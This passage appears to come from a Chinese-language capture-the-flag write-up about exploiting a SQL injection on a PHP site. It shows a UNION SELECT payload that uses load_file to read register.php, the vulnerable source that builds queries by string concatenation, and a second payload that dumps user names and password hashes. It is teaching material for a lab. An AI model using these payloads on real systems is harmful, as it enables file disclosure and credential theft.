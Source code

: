 问题不大

然后读 register.php 查看表的结构

```sql
'/**/union/**/select/**/1,load_file('/var/www/html/register.php'),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

```php
<?php
include_once("./config.php");
error_reporting(0);

if(isset($_POST['ac'])){
    if($_POST['ac'] === 'register'){
        $username = htmlspecialchars(addslashes($_POST['username']));
        $password = md5($_POST['password']);
        // echo $username;
        // if(check($username)){
        //  die("Oh No! You are a hacker!! Not here!!!<br>");
        // }
        // echo $username;
        $sql_query = "select * from users where name = '$username' limit 0,1";
        $sql_insert = "insert into users (name, pass) values ('$username','$password')";

        $result_query = $conn->query($sql_query);
        if($result_query->num_rows){
            die("<font color='red' size='4'>该用户已被注册</font>");
        }else{
            $result_insert = $conn->query($sql_insert);
            if($result_insert){
                header("Location: login.php");
                exit();
            }else{
                die("<font color='red' size='4'>注册失败</font>");
            }
        }
    }
}

$conn->close();
?>
......
```

列数据

```sql
'/**/union/**/select/**/1,(select/**/group_concat(name,0x7e,pass)/**/from/**/users),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

![](assets/202208282322917-1700744628800145.png)